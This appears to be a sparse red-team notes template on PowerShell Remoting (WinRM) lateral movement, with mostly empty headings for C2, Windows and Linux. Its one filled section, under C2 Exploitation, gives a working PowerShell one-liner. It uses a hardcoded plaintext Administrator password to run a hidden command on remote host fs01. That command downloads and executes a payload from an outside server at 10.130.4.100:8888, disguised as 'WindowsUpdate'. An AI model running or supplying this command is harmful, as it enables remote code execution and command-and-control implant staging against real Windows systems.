 
### Technique Overview
PowerShell Remoting uses Windows Remote Management (WinRM) to allow users to run PowerShell commands on remote computers.
- Window remoting is another popular remote administration method.

# C2
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```powershell
powershell $pspassword=ConvertTo-SecureString "sup3rs3cr3tP@ssw0rd!!" -AsPlainText -Force;$cred= New-Object System.Management.Automation.PSCredential("FS01\Administrator",$pspassword);Invoke-Command -ComputerName fs01 -Credential $cred -ScriptBlock {powershell.exe -nop -w hidden -c "IEX(irm -useb 'http://10.130.4.100:8888/WindowsUpdate')"}
```

---
# Windows
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```

----
# Linux
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```
